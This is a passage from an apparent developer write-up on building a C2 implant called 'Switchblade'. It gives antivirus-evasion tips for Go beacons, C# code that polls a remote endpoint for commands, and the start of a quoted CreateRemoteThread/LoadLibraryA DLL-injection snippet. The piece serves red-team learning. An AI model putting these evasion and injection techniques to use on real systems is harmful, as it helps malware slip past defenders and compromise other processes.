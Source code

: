 These low detection rates can primarily be attributed to how Golang is compiled, though I was able to knock Microsoft off the detection list by first
assigning the retrieved command to a new variable as opposed to passing it directly to be executed. One other point on Go, typically beacons generated
from it are very hard for AV to detect. This is due to them statically linking all the necessary libraries needed for compiling, which bumps the file
size up past what some AV's can handle scanning. This isn't a new tactic either, the [Commie malware family padded 64MB of data](https://unit42.paloaltonetworks.com/unit42-comnie-continues-target-organizations-east-asia/) 
to their compiled executables in order to avoid being scanned.

###Now how did it go with C#?

I originally wanted to use C++ for this actually, but encountered a number of issues that C# had already resolved.
The crux of the Switchblade communication design is GET and POST web requests and, surprisingly, C++ does not have an easy native
way to perform these. You have to import another library in order to do this. So not a big deal, go to GitHub, grab one, import it. Ah but the one 
you grabbed doesn't compile with the latest version of Visual Studio you have, so should you troubleshoot the compatability issue or use the 2019
version over the 2022 version? I'm sure more experienced developers more familiar with C++ are shouting at this with an easy solution, but in that moment
it was just very confusing to figure out. 

Using C# though was much easier comparitively. What took essentially one line in Python, took a few more in C#, but the end result was a very stable HTTP structure.
And this was all with builtin structures, no downloading 3rd party libraries from Github and installing them yourself and troubleshooting what version of VS they were
made for, it just worked.

```C#
using (client)
            {
                client.BaseAddress = new Uri("https://eoqqzdfuzmgq7gg.m.pipedream.net/");
                HttpResponseMessage response = client.GetAsync("").Result;
                response.EnsureSuccessStatusCode();
                string result = response.Content.ReadAsStringAsync().Result;
                Console.WriteLine("Result: " + result);
            }
```

Pretty nifty right? 

The original goal with using C++ was also to be able to do a bunch of advanced memory things, like injecting shellcode into running processes.
C#, by nature of being a C based language, has all these tools to do memory modification that you would expect with C++! You still have
things like CreateRemoteThread, WriteProcessMemory, and LoadLlibraryA.

For example, look at the [following code taken from Codingvision.net](https://codingvision.net/c-inject-a-dll-into-a-process-w-createremotethread):
```C#
public static int Main()
    {
        // the target process - I'm using a dummy process for this
        // if you don't have one, open Task Manager and choose wisely
        Process targetProcess = Process.GetProcessesByName("testApp")[0];

        // geting the handle of the process - with required privileges
        IntPtr procHandle = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ, false, targetProcess.Id);

        // searching for the address of LoadLibraryA and storing it in a pointer
        IntPtr loadLibraryAddr = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");

        // name of the dll we want to inject
```